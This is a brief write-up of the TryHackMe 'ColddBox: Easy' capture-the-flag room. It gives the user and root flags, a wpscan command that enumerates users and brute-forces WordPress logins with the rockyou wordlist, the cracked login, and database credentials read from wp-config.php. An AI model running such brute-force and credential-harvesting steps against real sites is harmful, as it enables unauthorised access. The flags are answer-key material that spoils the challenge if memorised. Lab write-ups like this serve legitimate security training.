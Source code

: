 # TryHackMe ColddBox: Easy

# Saikat Karmakar | Jan 8:2021

# Task 1
1. user.txt
```
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
Felicidades, primer nivel conseguido!
```
2. root.txt
```
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
¡Felicidades, máquina completada!
```

***Notes***
//find users & brute force password

wpscan --url http://10.10.136.119 -e u --passwords /usr/share/wordlists/rockyou.txt --max-threads 64

```
[!] Valid Combinations Found:
 | Username: C0ldd, Password: 9876543210
```

```
/var/www/html/wp-config.php:define('DB_PASSWORD', 'cybersecurity');
/var/www/html/wp-config.php:define('DB_USER', 'c0ldd');
```
